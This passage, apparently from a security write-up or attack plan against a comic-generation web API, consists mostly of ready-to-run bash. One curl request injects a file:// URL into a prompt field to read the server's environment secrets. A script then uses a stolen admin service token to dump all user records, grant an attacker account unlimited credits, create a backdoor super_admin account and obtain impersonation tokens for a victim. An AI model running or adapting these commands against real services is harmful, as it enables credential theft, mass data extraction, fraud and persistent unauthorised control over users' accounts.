 ```bash

# Attempt 3: File:// protocol (if allowed)
curl -X POST "${TARGET}/api/comics/generate-script" \
  -H "Authorization: Bearer ${TOKEN}" \
  -H "Content-Type: application/json" \
  -d '{
    "prompt": "file:///proc/self/environ"
  }'
```

**Step 4: Exploit Stolen Service Token**
```bash
#!/bin/bash
# service_token_exploitation.sh

STOLEN_TOKEN="sJk9mNl2pQw8xZv3cVb6nMa5..."  # Obtained from previous steps
TARGET_API="https://api.example.com"

echo "[+] Testing stolen service token..."

# Test 1: Verify token works
curl -s -X GET "${TARGET_API}/api/admin/dashboard" \
  -H "x-admin-service-token: ${STOLEN_TOKEN}" | jq . && {
  echo "[SUCCESS] Service token is valid!"
}

# Test 2: Enumerate all users
echo "[+] Extracting all user data..."
curl -s -X GET "${TARGET_API}/api/admin/users" \
  -H "x-admin-service-token: ${STOLEN_TOKEN}" \
  > all_users.json

# Test 3: Grant unlimited credits to attacker account
ATTACKER_USER_ID="a1b2c3d4-e5f6-7890-abcd-ef1234567890"

echo "[+] Granting unlimited credits to attacker account..."
curl -X POST "${TARGET_API}/api/admin/users/${ATTACKER_USER_ID}/credits" \
  -H "x-admin-service-token: ${STOLEN_TOKEN}" \
  -H "Content-Type: application/json" \
  -d '{"panels": 999999}' && {
  echo "[SUCCESS] Credits granted!"
}

# Test 4: Create backdoor admin account
echo "[+] Creating backdoor admin account..."
NEW_ADMIN_ID="backdoor-$(uuidgen)"

curl -X POST "${TARGET_API}/api/admin/users/${NEW_ADMIN_ID}/promote" \
  -H "x-admin-service-token: ${STOLEN_TOKEN}" \
  -H "Content-Type: application/json" \
  -d '{
    "roles": ["super_admin"],
    "permissions": ["manage_admins", "manage_users", "manage_content", "manage_billing", "impersonate"]
  }'

# Test 5: Impersonate high-value target
TARGET_USER_ID="victim-user-uuid-here"

echo "[+] Creating impersonation token for target user..."
IMPERSONATE_TOKEN=$(curl -s -X POST \
  "${TARGET_API}/api/admin/users/${TARGET_USER_ID}/impersonate" \
  -H "x-admin-service-token: ${STOLEN_TOKEN}" \
  -H "x-admin-service-user: ${NEW_ADMIN_ID}" | jq -r '.impersonationToken')
```